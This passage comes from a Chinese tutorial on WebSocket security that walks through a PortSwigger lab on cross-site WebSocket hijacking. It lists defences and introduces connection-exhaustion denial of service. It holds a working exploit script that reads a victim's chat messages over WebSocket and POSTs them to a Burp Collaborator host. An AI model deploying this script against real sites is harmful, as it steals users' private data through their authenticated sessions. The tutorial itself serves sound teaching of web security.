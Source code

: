 改完之后的实例如下：

<script>
    var ws = new WebSocket('wss://0acc007403ed9d97c0fd3a8f0030001d.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://hyjxe1dr72cujeksvi5dn54wtnzen3.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153607-a24023f4-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153607-a24023f4-7ea6-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153617-a8c77b5a-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153617-a8c77b5a-7ea6-1.png)

Step 7：点击"Veiw Exploit"

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153633-b23620b0-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153633-b23620b0-7ea6-1.png)

Step 8：之后收到DNS请求

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153648-bacf6e16-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153648-bacf6e16-7ea6-1.png)

Step 9：之后点击"Deliver exploit to victim"  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153705-c4f4d700-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153705-c4f4d700-7ea6-1.png)  
之后在Burp Collaborator界面点击Poll now，去查找泄露的信息  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153721-ced1d28c-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153721-ced1d28c-7ea6-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221218153732-d4f98704-7ea6-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221218153732-d4f98704-7ea6-1.png)

#### 防御措施

*   检查客户端请求中的Origin信息是否跨域
*   通过使用Token来验证用户身份防止跨域

### 拒绝服务

#### 基本介绍

由于WebSocket是面向连接的协议，且通过我们之前的实例我们会发现在完成一次请求处理之后，后续由于Keep-Alive导致服务器接受完信息后不会关闭TCP连接，而后续对相同目标服务器的请求也将一律采用这个TCP连接，此时我们就会想到一个问题：如果WebSocket未限制链接数量，那么此时将会带来被DOS攻击的风险，同时需要注意的一点就是WebSocket的连接数量限制和HTTP连接限制并不完全相同，它对于浏览器有差异，例如：火狐浏览器默认最大连接数为200

#### 利用方式

WebSocket建立的连接是持久性的连接，当且仅当客户端或者服务器中的一方主动发起断开链接请求(Opcode 8的关闭帧)时才会关闭，那么我们的利用方式也就显得很是简单了，我们只需要发起大量的连接请求耗尽服务器资源即可实现拒绝服务攻击
